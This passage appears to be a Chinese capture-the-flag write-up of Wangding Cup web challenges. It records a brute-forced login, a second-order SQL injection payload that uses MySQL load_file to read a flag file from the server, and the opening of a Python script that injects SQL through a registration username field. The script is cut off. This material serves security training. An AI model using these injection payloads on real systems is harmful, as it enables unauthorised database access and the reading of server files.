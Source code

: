 爆破密码

![image-20221225151312286](网鼎杯.assets/image-20221225151312286.png)

`zhangwei zhangwei666`

分析一下代码可发现，很明显就是一个二次注入了

我们发贴时令`',content=user(),/*`，其它随意

然后去详情里面评论`*/#`

此时sql语句会变成这样，`/**/`是多行注释符，所以是可以注释的，而此时你的`content`会回显到网页上（这也是为什么挑`content`的原因

```sql
insert into comment
       set category = ' ',content=user()，/*',
           content = '*/#',
           bo_id = '$bo_id'";
```

然后就是找`flag`，没啥意思

最终**payload**

```
',content=(select load_file('/var/www/html/flag_8946e1ff1ee3e40f.php')),/*
```

## [网鼎杯2018]Unfinish

这么多二次注入啊。。

直接偷脚本啦

```python
import requests
import random
import re
import time

url = 'http://c812ea7c-a620-4415-8467-1b05873bb72c.node4.buuoj.cn:81'

def register(sql):
    payload = "1'^({})^'1".format(sql)
    email = str(random.random()) + '@qq.com',
    data = {
    'email': email,
    'username': payload,
    'password': '1'
    }
```